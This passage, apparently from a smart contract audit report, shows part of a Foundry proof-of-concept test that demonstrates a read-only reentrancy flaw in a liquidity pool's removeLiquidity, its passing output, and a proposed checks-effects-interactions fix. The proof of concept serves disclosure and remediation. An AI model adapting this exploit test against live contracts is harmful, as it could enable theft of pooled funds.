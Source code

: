 ```solidity
    _tokens[0] = callbackToken;
    _tokens[1] = tokens[1];

    vm.stopPrank();
    Well well2 = Well(auger.bore("Well2", "WELL2", _tokens, wellFunction, pumps));
    approveMaxTokens(user, address(well2));

    uint[] memory amounts = new uint[](2);
    amounts[0] = 100 * 1e18;
    amounts[1] = 100 * 1e18;

    changePrank(user);
    callbackToken.approve(address(well2), type(uint).max);
    uint256 lpAmountOut = well2.addLiquidity(amounts, 0, user);

    well2.removeLiquidity(lpAmountOut, amounts, user);
}
```

The output is shown below.

```
forge test -vv --match-test test_exploitReadOnlyReentrancyRemoveLiquidityCallbackToken

[PASS] test_exploitReadOnlyReentrancyRemoveLiquidityCallbackToken() (gas: 5290876)
Logs:
  read-only-reentrancy beforeTokenTransfer reserves[0]: 0
  read-only-reentrancy beforeTokenTransfer reserves[1]: 0
  read-only-reentrancy afterTokenTransfer reserves[0]: 0
  read-only-reentrancy afterTokenTransfer reserves[1]: 0
  read-only-reentrancy beforeTokenTransfer reserves[0]: 100000000000000000000
  read-only-reentrancy beforeTokenTransfer reserves[1]: 100000000000000000000
  read-only-reentrancy afterTokenTransfer reserves[0]: 100000000000000000000
  read-only-reentrancy afterTokenTransfer reserves[1]: 100000000000000000000

Test result: ok. 1 passed; 0 failed; finished in 3.66ms
```

**Recommended Mitigation:** Implement the CEI pattern in relevant functions by updating reserves before making external calls. For example, the function `Well::removeLiquidity` can be modified shown below.

```solidity
function removeLiquidity(
    uint lpAmountIn,
    uint[] calldata minTokenAmountsOut,
    address recipient
) external nonReentrant returns (uint[] memory tokenAmountsOut) {
    IERC20[] memory _tokens = tokens();
    uint[] memory reserves = _updatePumps(_tokens.length);
    uint lpTokenSupply = totalSupply();

    tokenAmountsOut = new uint[](_tokens.length);
    _burn(msg.sender, lpAmountIn);

    _setReserves(reserves); // @audit CEI pattern

    for (uint i; i < _tokens.length; ++i) {
        tokenAmountsOut[i] = (lpAmountIn * reserves[i]) / lpTokenSupply;
        require(
            tokenAmountsOut[i] >= minTokenAmountsOut[i],
            "Well: slippage"
        );
        _tokens[i].safeTransfer(recipient, tokenAmountsOut[i]);
        reserves[i] = reserves[i] - tokenAmountsOut[i];
```